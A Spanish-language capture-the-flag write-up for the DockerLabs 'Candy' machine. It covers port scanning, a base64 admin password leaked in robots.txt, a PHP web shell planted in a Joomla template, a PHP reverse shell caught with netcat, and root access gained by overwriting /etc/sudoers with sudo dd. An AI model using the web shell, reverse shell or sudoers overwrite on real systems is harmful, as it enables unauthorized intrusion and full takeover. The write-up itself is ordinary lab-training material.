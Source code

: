 ```yaml
---
title: Candy - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Luisillo_o        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/78b9f3c1-81db-480e-884d-be8bbfed7b1e)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/65c0f947-e2bd-4fcc-9c1a-d6054a912860)

# Exploración Web
Al navegar al puerto `80`, descubrimos un sitio web de joomla.

![image](https://github.com/user-attachments/assets/36850d5a-fce8-4db7-9313-879c5f919e9c)

Vemos que tenemos tambien un `robots.txt ` el cual tambien contiene un al final lo que parece un usuario y una contraseña.

![image](https://github.com/user-attachments/assets/129e696d-5893-40c1-96a8-174e2cd8c425)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/c3203ae4-dff2-4938-a70c-28346f56dc1d)

Recordando que antes vimos en robots.txt un usuario admin y una contraseña, al probarla no nos deja acceder, pero si accedemos en la pagina cyberchef al pegar la contraseña nos dice que esta en base64.

![image](https://github.com/user-attachments/assets/7dcf3ecf-23c6-40d8-a1d2-b3be64522f41)

La contraseña es `sanluis12345`.

Ya estamos dentro del panel de adminsitrador del servidor de joomla.

![image](https://github.com/user-attachments/assets/a6f2421c-37b7-4350-a3b7-fe1cb30d48fb)

Ahora para generar el `RCE`, debemos de entrar en `system > Templates > Site Templates > Cassiopeia Details and Files`, añadimos en el `index.php` lo siguiente: 

```bash
<?php
       system($_GET['cmd']);
?>
```

![image](https://github.com/user-attachments/assets/69c1693c-3568-46cd-8688-e12b2dac1c80)

Ahora si ponemos lo siguiente en la url `/index.php?cmd=id`, podemos comporbar que funciona.

![image](https://github.com/user-attachments/assets/ecea3218-1c82-4372-8379-61b3c87ac891)

Por lo que generaremos una revershell.

# Reverse Shell

Modificaremos para que sea una reverseshell usando la herramienta [Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) para crear una shell en PHP. La reverse shell se encuentra disponible en:

![image](https://github.com/user-attachments/assets/050453d5-ff92-46ff-8313-11488998183f)

Simultáneamente, iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:
```bash 
nc -lvnp 4444
```
Al acceder a la reverse shell desde el navegador, logramos obtener acceso como `www-data`.

![image](https://github.com/user-attachments/assets/ba14667e-c769-4e9c-9e3c-8ba8c46fbf3d)

Logramos acceso como` www-data`.

![image](https://github.com/user-attachments/assets/10c321b4-4476-4b15-82bc-538c244c6476)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de privilegios

Lo que haremos sera usar el programa `linpeas` para ver que nos puede detectar.

![image](https://github.com/user-attachments/assets/6a7efbd1-7968-411d-9b99-c786820ceede)

Encontramos la siguiente ruta `/var/backups/hidden/otro_caramelo.txt`. vamos a ver que contiene.

![image](https://github.com/user-attachments/assets/318ac934-596d-456a-ab34-08125a442a64)

Vemos que contiene una contraseña para el usuario `luisillo`, intentamos el acceso.

![image](https://github.com/user-attachments/assets/058fa596-20e4-4030-a6d8-fab78d4d2468)

Accedemos con luisillo, por lo que ahora deberiamos de ver la manera de escalar privilegios con el.

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `dd` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
LFILE=/etc/sudoers
echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
```

Ahora ponemos `sudo su`.

![image](https://github.com/user-attachments/assets/5c2b6b91-78e4-466a-8291-61dca1fa1068)

Ya somos root 

